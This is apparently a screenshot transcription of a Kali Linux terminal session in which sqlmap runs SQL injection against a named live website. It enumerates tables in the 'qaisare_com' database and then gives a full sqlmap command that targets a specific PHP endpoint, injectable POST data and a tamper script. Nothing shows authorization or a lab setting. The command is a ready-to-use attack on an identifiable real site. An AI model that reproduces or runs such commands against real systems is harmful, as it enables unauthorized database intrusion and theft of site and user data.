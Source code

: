 [18:39:32] [INFO] retrieved: flscrvpre                                                           
[18:39:32] [INFO] retrieved: grand                                                               
[18:40:47] [INFO] retrieved: ajar                                                                
                                                                                                 
[18:41:03] [INFO] fetching entries for table 'user_rights' in database 'qaisare_com'
[18:41:03] [INFO] fetching number of entries for table 'user_rights' in database 'qaisare_com'
[18:41:03] [INFO] retrieved: 
[18:41:04] [WARNING] unable to retrieve the number of entries for table 'user_rights' in database 'qaisare_com'
[18:41:04] [INFO] fetching columns for table 'tf_messages' in database 'qaisare_com'
[18:41:04] [INFO] retrieved: 
[18:41:05] [ERROR] unable to retrieve the number of columns for table 'tf_messages' in database 'qaisare_com'
[18:41:05] [WARNING] unable to retrieve column names for table 'tf_messages' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] n
[18:41:12] [WARNING] unable to enumerate the columns for table 'tf_messages' in database 'qaisare_com', skipping
[18:41:12] [INFO] fetching columns for table 'Class_Def_Table' in database 'qaisare_com'
[18:41:12] [INFO] retrieved: 
[18:41:13] [ERROR] unable to retrieve the number of columns for table 'Class_Def_Table' in database 'qaisare_com'
[18:41:13] [WARNING] unable to retrieve column names for table 'Class_Def_Table' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] n
[18:41:15] [WARNING] unable to enumerate the columns for table 'Class_Def_Table' in database 'qaisare_com', skipping
[18:41:15] [INFO] fetching columns for table 'journal' in database 'qaisare_com'
[18:41:15] [INFO] retrieved: 
[18:41:16] [ERROR] unable to retrieve the number of columns for table 'journal' in database 'qaisare_com'
[18:41:16] [WARNING] unable to retrieve column names for table 'journal' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] q
[18:41:18] [ERROR] user quit

[*] shutting down at 18:41:18

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T user_rights --columns
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

